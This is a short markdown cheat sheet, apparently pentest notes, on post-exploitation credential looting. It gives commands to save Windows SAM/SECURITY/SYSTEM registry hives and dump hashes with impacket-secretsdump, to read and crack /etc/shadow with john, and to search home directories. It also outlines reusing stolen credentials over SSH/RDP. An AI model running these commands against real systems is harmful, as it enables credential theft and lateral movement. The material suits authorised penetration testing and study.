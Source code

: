 # Loot, Booty & Plunder

## Tools

* [Lazagne](https://github.com/AlessandroZ/LaZagne)

## Methodology

### Dump users hashes

#### Windows

* Using fgdump, wce32.exe
* Extract registries:

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

* Extract hashes from registries' saves:

```
impacket-secretsdump -security security.save -sam sam.save -system system.save LOCAL
```

* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)

#### Linux

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Search for creds & interesting data

#### Windows

#### Linux

```
ls -laR /home
ls -laR /root

# search for interesting files
```

### Check available services for data

### Re-check network config

#### Windows

#### Linux

```
netstat -antup
arp -a
```

### Crack hashes

### Use found creds on SSH/RDP across the network
